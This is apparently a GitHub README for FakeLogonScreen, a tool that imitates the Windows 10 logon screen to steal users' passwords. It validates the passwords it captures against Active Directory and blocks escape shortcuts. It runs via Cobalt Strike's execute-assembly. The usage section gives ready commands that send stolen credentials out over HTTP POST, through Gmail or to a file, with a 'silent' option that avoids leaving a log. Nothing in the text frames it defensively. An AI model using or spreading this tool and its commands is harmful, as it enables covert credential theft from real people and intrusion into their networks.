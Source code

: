 # FakeLogonScreen
FakeLogonScreen is a utility to fake the Windows logon screen in order to obtain the user's password. The password entered is validated against the Active Directory or local machine to make sure it is correct and is then displayed to the console or saved to disk.

It can either be executed by simply running the .exe file, or using for example Cobalt Strike's `execute-assembly` command.

Binaries available from the [Releases](https://github.com/diegomardian/fakelogonscreen/releases) page.
- FakeLogonScreen.exe: Writes output to console which for example is compatible with Cobalt Strike
- FakeLogonScreenToFile.exe: Writes output to console and `%LOCALAPPDATA%\Microsoft\user.db`

Folders:
- / (root): Built against .NET Framework 4.5 which is installed by default in Windows 8, 8.1 and 10
- DOTNET35: Built against .NET Framework 3.5 which is installed by default in Windows 7

# Features
- Primary display shows a Windows 10 login screen while additional screens turn black
- If custom background is configured by the user, shows that background instead of the default one
- Validates entered password before closing the screen
- Username and passwords entered are outputted to console or stored in a file
- Blocks many shortkeys to prevent circumventing the screen
- Minimizes all existing windows to avoid other windows staying on top
- Send results through either http, gmail, or to a file

# How To Use
FakeLogonScreen accepts these parameters:
| Option | Description |
| ------ | ---------- |
| `http [url]` | Sends results to url as a json post request with the results contianed in "results" |
| `gmail [email] [password]` | Sends a email to the specified email (Note: You must enable less apps accesss [here](https://www.google.com/settings/security/lesssecureapps) |
| `file [filepath]` | writes results to the file specified |
 FakeLogonScreen normally will make a log.txt file but if you append `silent` to the end it will not.
## Http
You can create your own server or you can use [DuckyServer](), a pre built server.
## Exmaple using DuckyServer
`FakeLogonScreen.exe http http://127.0.0.1//fake_login_screen silent`
## Gmail
To use Gmail make sure you go to [https://www.google.com/settings/security/lesssecureapps](https://www.google.com/settings/security/lesssecureapps) and enable "Allow less secure apps" for the account you will use.
## Example
`FakeLogonScreen.exe gmail testaccount@gmail.com testpassword silent`
## File
Just specify the file you would like FakeLogonScreen to write to.
## Example
`FakeLogonScreen.exe file C:\Users\test\passwords.txt`
